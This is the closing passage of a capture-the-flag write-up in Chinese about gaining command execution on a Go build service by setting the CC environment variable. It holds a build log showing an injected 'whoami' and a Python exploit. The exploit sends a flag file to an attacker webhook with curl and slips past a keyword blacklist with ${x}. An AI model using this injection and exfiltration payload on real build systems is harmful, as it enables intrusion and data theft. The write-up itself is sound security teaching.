/usr/lib/go-1.18/pkg/tool/linux_amd64/link -o $WORK/b001/exe/a.out -importcfg $WORK/b001/importcfg.link -buildmode=exe -buildid=qsz7grbrD5uSgvJOHsxo/4yhnu8TZ7l1bcN-natjy/93DODu0O1nJlOV7JWxS8/qsz7grbrD5uSgvJOHsxo -extld=gcc $WORK/b001/_pkg_.a
/usr/lib/go-1.18/pkg/tool/linux_amd64/buildid -w $WORK/b001/exe/a.out # internal
mv $WORK/b001/exe/a.out m
rm -r $WORK/b001/
```
他確實執行了gcc
那如果我們試著去修改CC這個env
再去執行
```
naup@naup-virtual-machine:~/Desktop/dist$ CC='MyGo!!!!!' go build -x m.go 
WORK=/tmp/go-build1547451115
mkdir -p $WORK/b041/
cd /usr/lib/go-1.18/src/runtime/cgo
TERM='dumb' CGO_LDFLAGS='"-g" "-O2" "-lpthread"' /usr/lib/go-1.18/pkg/tool/linux_amd64/cgo -objdir $WORK/b041/ -importpath runtime/cgo -import_runtime_cgo=false -import_syscall=false -- -I $WORK/b041/ -g -O2 -Wall -Werror ./cgo.go
# runtime/cgo
cgo: C compiler "MyGo!!!!!" not found: exec: "MyGo!!!!!": executable file not found in $PATH	
```
他好像執行到了 MyGo!!!!!
我們改成 sh -c 'whoami'
	
```
naup@naup-virtual-machine:~/Desktop/dist$ CC='sh -c "whoami"' go build -x m.go 
WORK=/tmp/go-build4222736549
mkdir -p $WORK/b041/
cd /usr/lib/go-1.18/src/runtime/cgo
TERM='dumb' CGO_LDFLAGS='"-g" "-O2" "-lpthread"' /usr/lib/go-1.18/pkg/tool/linux_amd64/cgo -objdir $WORK/b041/ -importpath runtime/cgo -import_runtime_cgo=false -import_syscall=false -- -I $WORK/b041/ -g -O2 -Wall -Werror ./cgo.go
cd $WORK
sh -c whoami -fno-caret-diagnostics -c -x c - -o /dev/null || true
sh -c whoami -Qunused-arguments -c -x c - -o /dev/null || true
sh -c whoami -fdebug-prefix-map=a=b -c -x c - -o /dev/null || true
sh -c whoami -gno-record-gcc-switches -c -x c - -o /dev/null || true
cd $WORK/b041
TERM='dumb' sh -c whoami -I /usr/lib/go-1.18/src/runtime/cgo -fPIC -m64 -pthread -fno-caret-diagnostics -Qunused-arguments -fmessage-length=0 -fdebug-prefix-map=$WORK/b041=/tmp/go-build -gno-record-gcc-switches -I ./ -g -O2 -Wall -Werror -fdebug-prefix-map=/usr/lib/go-1.18/src/runtime/cgo=/_/runtime/cgo -o ./_x001.o -c _cgo_export.c
TERM='dumb' sh -c whoami -I /usr/lib/go-1.18/src/runtime/cgo -fPIC -m64 -pthread -fno-caret-diagnostics -Qunused-arguments -fmessage-length=0 -fdebug-prefix-map=$WORK/b041=/tmp/go-build -gno-record-gcc-switches -I ./ -g -O2 -Wall -Werror -fdebug-prefix-map=/usr/lib/go-1.18/src/runtime/cgo=/_/runtime/cgo -o ./_x002.o -c cgo.cgo2.c
cd /usr/lib/go-1.18/src/runtime/cgo
TERM='dumb' sh -c whoami -I . -fPIC -m64 -pthread -fno-caret-diagnostics -Qunused-arguments -fmessage-length=0 -fdebug-prefix-map=$WORK/b041=/tmp/go-build -gno-record-gcc-switches -I $WORK/b041/ -g -O2 -Wall -Werror -fdebug-prefix-map=/usr/lib/go-1.18/src/runtime/cgo=/_/runtime/cgo -o $WORK/b041/_x003.o -c gcc_context.c
TERM='dumb' sh -c whoami -I . -fPIC -m64 -pthread -fno-caret-diagnostics -Qunused-arguments -fmessage-length=0 -fdebug-prefix-map=$WORK/b041=/tmp/go-build -gno-record-gcc-switches -I $WORK/b041/ -g -O2 -Wall -Werror -fdebug-prefix-map=/usr/lib/go-1.18/src/runtime/cgo=/_/runtime/cgo -o $WORK/b041/_x004.o -c gcc_fatalf.c
TERM='dumb' sh -c whoami -I . -fPIC -m64 -pthread -fno-caret-diagnostics -Qunused-arguments -fmessage-length=0 -fdebug-prefix-map=$WORK/b041=/tmp/go-build -gno-record-gcc-switches -I $WORK/b041/ -g -O2 -Wall -Werror -fdebug-prefix-map=/usr/lib/go-1.18/src/runtime/cgo=/_/runtime/cgo -o $WORK/b041/_x005.o -c gcc_libinit.c
TERM='dumb' sh -c whoami -I . -fPIC -m64 -pthread -fno-caret-diagnostics -Qunused-arguments -fmessage-length=0 -fdebug-prefix-map=$WORK/b041=/tmp/go-build -gno-record-gcc-switches -I $WORK/b041/ -g -O2 -Wall -Werror -fdebug-prefix-map=/usr/lib/go-1.18/src/runtime/cgo=/_/runtime/cgo -o $WORK/b041/_x006.o -c gcc_linux_amd64.c
TERM='dumb' sh -c whoami -I . -fPIC -m64 -pthread -fno-caret-diagnostics -Qunused-arguments -fmessage-length=0 -fdebug-prefix-map=$WORK/b041=/tmp/go-build -gno-record-gcc-switches -I $WORK/b041/ -g -O2 -Wall -Werror -fdebug-prefix-map=/usr/lib/go-1.18/src/runtime/cgo=/_/runtime/cgo -o $WORK/b041/_x007.o -c gcc_mmap.c
TERM='dumb' sh -c whoami -I . -fPIC -m64 -pthread -fno-caret-diagnostics -Qunused-arguments -fmessage-length=0 -fdebug-prefix-map=$WORK/b041=/tmp/go-build -gno-record-gcc-switches -I $WORK/b041/ -g -O2 -Wall -Werror -fdebug-prefix-map=/usr/lib/go-1.18/src/runtime/cgo=/_/runtime/cgo -o $WORK/b041/_x008.o -c gcc_setenv.c
TERM='dumb' sh -c whoami -I . -fPIC -m64 -pthread -fno-caret-diagnostics -Qunused-arguments -fmessage-length=0 -fdebug-prefix-map=$WORK/b041=/tmp/go-build -gno-record-gcc-switches -I $WORK/b041/ -g -O2 -Wall -Werror -fdebug-prefix-map=/usr/lib/go-1.18/src/runtime/cgo=/_/runtime/cgo -o $WORK/b041/_x009.o -c gcc_sigaction.c
TERM='dumb' sh -c whoami -I . -fPIC -m64 -pthread -fno-caret-diagnostics -Qunused-arguments -fmessage-length=0 -fdebug-prefix-map=$WORK/b041=/tmp/go-build -gno-record-gcc-switches -I $WORK/b041/ -g -O2 -Wall -Werror -fdebug-prefix-map=/usr/lib/go-1.18/src/runtime/cgo=/_/runtime/cgo -o $WORK/b041/_x010.o -c gcc_traceback.c
TERM='dumb' sh -c whoami -I . -fPIC -m64 -pthread -fno-caret-diagnostics -Qunused-arguments -fmessage-length=0 -fdebug-prefix-map=$WORK/b041=/tmp/go-build -gno-record-gcc-switches -I $WORK/b041/ -g -O2 -Wall -Werror -fdebug-prefix-map=/usr/lib/go-1.18/src/runtime/cgo=/_/runtime/cgo -o $WORK/b041/_x011.o -c gcc_util.c
TERM='dumb' sh -c whoami -I . -fPIC -m64 -pthread -fno-caret-diagnostics -Qunused-arguments -fmessage-length=0 -fdebug-prefix-map=$WORK/b041=/tmp/go-build -gno-record-gcc-switches -I $WORK/b041/ -g -O2 -Wall -Werror -fdebug-prefix-map=/usr/lib/go-1.18/src/runtime/cgo=/_/runtime/cgo -o $WORK/b041/_x012.o -c linux_syscall.c
TERM='dumb' sh -c whoami -I . -fPIC -m64 -pthread -fno-caret-diagnostics -Qunused-arguments -fmessage-length=0 -fdebug-prefix-map=$WORK/b041=/tmp/go-build -gno-record-gcc-switches -I $WORK/b041/ -g -O2 -Wall -Werror -fdebug-prefix-map=/usr/lib/go-1.18/src/runtime/cgo=/_/runtime/cgo -o $WORK/b041/_x013.o -c gcc_amd64.S
cd $WORK/b041
TERM='dumb' sh -c whoami -I /usr/lib/go-1.18/src/runtime/cgo -fPIC -m64 -pthread -fno-caret-diagnostics -Qunused-arguments -fmessage-length=0 -fdebug-prefix-map=$WORK/b041=/tmp/go-build -gno-record-gcc-switches -I ./ -g -O2 -Wall -Werror -fdebug-prefix-map=/usr/lib/go-1.18/src/runtime/cgo=/_/runtime/cgo -o ./_cgo_main.o -c _cgo_main.c
cd /home/naup/Desktop/dist
TERM='dumb' sh -c whoami -I /usr/lib/go-1.18/src/runtime/cgo -fPIC -m64 -pthread -fno-caret-diagnostics -Qunused-arguments -fmessage-length=0 -fdebug-prefix-map=$WORK/b041=/tmp/go-build -gno-record-gcc-switches -o $WORK/b041/_cgo_.o $WORK/b041/_cgo_main.o $WORK/b041/_x001.o $WORK/b041/_x002.o $WORK/b041/_x003.o $WORK/b041/_x004.o $WORK/b041/_x005.o $WORK/b041/_x006.o $WORK/b041/_x007.o $WORK/b041/_x008.o $WORK/b041/_x009.o $WORK/b041/_x010.o $WORK/b041/_x011.o $WORK/b041/_x012.o $WORK/b041/_x013.o -g -O2 -lpthread
# runtime/cgo
naup
TERM='dumb' /usr/lib/go-1.18/pkg/tool/linux_amd64/cgo -dynpackage cgo -dynimport $WORK/b041/_cgo_.o -dynout $WORK/b041/_cgo_import.go -dynlinker
# runtime/cgo
naup
# runtime/cgo
naup
# runtime/cgo
naup
# runtime/cgo
naup
# runtime/cgo
naup
# runtime/cgo
naup
# runtime/cgo
naup
# runtime/cgo
naup
# runtime/cgo
naup
# runtime/cgo
naup
# runtime/cgo
naup
# runtime/cgo
naup
# runtime/cgo
naup
# runtime/cgo
naup
# runtime/cgo
cgo: cannot parse $WORK/b041/_cgo_.o as ELF, Mach-O, PE or XCOFF
```
	
成功RCE，接下來就用curl 或 wget的方式將結果送到webhook就可以解了!(黑名單所有都可以透過在中間塞一個${x}來繞過)
其實 golang官網有提到CC這個環境變數相關資料


## exploit
另外像是輸出時被換行之類的或是emoji之類的問題就用 `base64 + tr -d` 解決
```py
import requests
import sys

def exploit():
    if len(sys.argv) != 2:
        print("Usage: python3 exploit.py <webhook_url>")
        sys.exit(1)

    YOURhost = sys.argv[1]

    url = "http://cha-thjcc.scint.org:20000/mygolang"

    headers = {
        "Host": "cha-thjcc.scint.org:20000",
        "Content-Type": "application/json",
        "Connection": "keep-alive"
    }

    data = {
        "env": {
            "CC": "sh -c \"cu${x}rl " + YOURhost + " -X POST -d $(c${x}at /app/flag.mygo|base64|tr -d '\\n')\""
        },
        "code": 
    """
    package main
    import \"C\"

    func main() {
        println(\"Naup\")
    }
    """
    }

    response = requests.post(url, headers=headers, json=data)

    print("Status Code:", response.status_code)
    print("Response Body:", response.text)

exploit()
```


> Flag: THJCC{MyGo!!!\!!https://www.youtube.com/channel/UC80p_16pSSHA8YmtCVdX51w_OuO_ItsMygo!!!!!🎤🎸🎸🥁🎸GolangsFuneral🎹}
